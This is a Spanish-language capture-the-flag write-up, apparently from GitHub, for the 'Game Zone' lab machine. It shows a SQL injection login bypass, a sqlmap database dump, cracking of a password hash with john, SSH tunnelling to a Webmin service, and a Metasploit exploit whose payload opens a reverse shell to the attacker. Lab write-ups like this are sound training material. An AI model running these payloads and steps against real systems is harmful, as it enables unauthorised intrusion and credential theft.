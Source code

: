 ![image](https://github.com/user-attachments/assets/80b0103c-3593-48d0-9f1a-1af1d3fb977d)# Game Zone

En esta máquina nos dan como introducción aprender a hackear, entender SQLMAP, crackear contraseñas y usar servicios para crear SSH reversos para escalar privilegios.

Vamos a ello!!

He hecho un escaneo con nmap 

```
nmap -sCV -T4 --min-rate 4000 ip
```

HE encontrado 2 puertos abiertos, el 80 y el 22 

![image](https://github.com/user-attachments/assets/b640d602-5a8d-4bf3-9c52-43ff7efdf238)

Encontramos esto en la web, como vemos tenemos la posibilidad de registrarnos de intentar un SQL, vemos varios vectores, vamos a explorar la web.

La primera pregunta es quien es el calvo que esta en la foto, sabemos que es Hitman pero necsitamos el nombre vamos a hacer una "reverse image"

Yo en mi caso ya sabía quien era, pero con lens o cualquier otro podemos sacarlo

![image](https://github.com/user-attachments/assets/cf8d63ec-411f-42f9-a50c-9531be81c910)

# Obtener acceso Via SQL

La CTF nos explica consultar básicas de SQL como

```
SELECT * FROM users WHERE username = :username AND password:= password
```

Como vemos cuando intentamos imputear el login deberemos insertar los valores "username" y "password" esta forma de hacer la consulta es obviamente una vulnerabilidad

Un ejemplo simple es por ejemplo probar el usuario "admin" y la contraseña ' or 1=1 -- - autentificacndo el login, quedaría asi:

```
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

Vamos a poner en el usuario el comentario a ver si entramos

![image](https://github.com/user-attachments/assets/494f377d-cf5a-49d6-a4a2-e6ff1d934506)

Genial estamos en la ruta : /portal.php

# Usar SQL map

SQLMAP es un popular open-source, automatiza tareas de SQL injection y tareas de la base de datos.

Vamos a utilziarla, primero de todo como es obvio necesitaremos la consulta, esto será coger el proxy de BurpSuite y probar una consulta en "search for a game review" la cogeremos la descargaremos y se la daremos al sql map:

![image](https://github.com/user-attachments/assets/f811481b-8e0b-463a-b683-33a2a73dc64c)

Una vez tenemos la consulta la descargamos e inicializamos SQL

```
sqlmap -r request --dbms=mysql --dump
```
Después del escaneo encontramos 2 tablas y una de ellas con una password

la tabla post:

```
able: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```

La tabla Users:

```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

Una vez esto ya tenemos la mayoria de respuestas y podemos pasar al siguiente paso, crackear.

Lo primero que haremos sera cogernos ese hash que tenemos y pasarnoslo a un archivo, con ello podremos pasarselo a john

![image](https://github.com/user-attachments/assets/0a7f8ffa-4869-4797-8dd5-eebe26b63885)

En este caso podriamos hacer un hashid y identificar el tipo de hash (SHA256) pero en micaso no lo he hecho y directamente lo he metido con lo cual vamos a ello

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2024-11-07 14:41) 1.754g/s 5116Kp/s 5116Kc/s 5116KC/s vimivera..veluasan
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

Ya tenemos la password bien 

```
agent47:videogamer124
```
Con esto podemos probar un logeo por ssh y aver si nos conecta

![image](https://github.com/user-attachments/assets/67f9dee4-8c07-4694-85e7-578de8ae8cac)

Genial tenemos también la flag "user.txt"


# Explorar servicios con reverse SSH tunnels

El reenvío de puerto SSH inverso especifica que el puerto dado en el host del servidor remoto se debe reenviar al host y puerto dados en el lado local.

```
ssh -L 9000:imgur.com:80 user@example.com
```

-L es un túnel local (USTED <-- CLIENTE). Si un sitio fue bloqueado, puede reenviar el tráfico a un servidor de su propiedad y verlo. Por ejemplo, si imgur fue bloqueado en el trabajo, puede ejecutar ssh -L 9000:imgur.com:80 usuario@ejemplo.com. Si va a localhost:9000 en su máquina, cargará el tráfico de imgur utilizando su otro servidor.

-R es un túnel remoto (USTED --> CLIENTE). Reenvía su tráfico al otro servidor para que otros lo vean. Similar al ejemplo anterior, pero a la inversa.
```
ss
```

En caso de querer ver mas TCP o UDP o ver en cada caso

```
ss -tulpn
```

![image](https://github.com/user-attachments/assets/5ae30ab5-59db-476d-896f-358b43916b03)

En este caso solo he elegido los sockets TCP vemos que tenemos el *:10000 

Podemos exposear el contenido local desde nuestra máquina

```
ssh -L 10000:localhost:10000 usuario@ip
```

![image](https://github.com/user-attachments/assets/ec69019e-ccbb-428b-9ca1-3c8d1b6a6088)

![image](https://github.com/user-attachments/assets/b32a12a1-1cea-4e45-a6a9-a030bd123f5b)

Dentro nos encontramos un webmin 1.580

# Escala de privilegios

Usando la versión del CMS explotaremos con MEtasploit

```
msfconsole # iniciamos metasploit
search webmin #buscamos vulnerabilidades de webmin
use 0 # exploit/unix/webapp/webmin_show_cgi_exec
show options
```

Ahora configurar el payload

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set password videogame124
password => videogame124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set password videogamer124
password => videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhosts localhost
rhosts => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set username aget47
username => aget47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload 
payload => 
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

Una vez terminado configuramos el payload y ejecutamos

```
set lhost tuip
run
```

![image](https://github.com/user-attachments/assets/13a8cfbc-290e-42ba-8918-6a7ae18c7dc7)

GG!!!!!!!!!!!!!!!










